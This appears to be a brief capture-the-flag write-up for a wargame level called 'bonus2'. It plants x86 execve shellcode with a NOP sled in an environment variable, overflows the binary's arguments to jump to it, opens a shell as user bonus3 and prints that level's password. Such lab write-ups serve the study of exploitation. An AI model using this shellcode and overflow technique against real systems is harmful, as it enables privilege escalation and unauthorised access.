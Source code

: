 We implement a environment variable `EXPLOIT` with a shellcode :
```bash
export EXPLOIT=$(python -c "print '\x90' * 300 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'")
```

We fill `argv[1]` with our `EXPLOIT` address and we insert a padding in `argv[2]` :
```bash
./bonus2 $(python -c "print '\x04\xf8\xff\xbf' * 100") $(python -c "print 'B' * 26")
$ whoami
bonus3
$ cd .. && cat bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```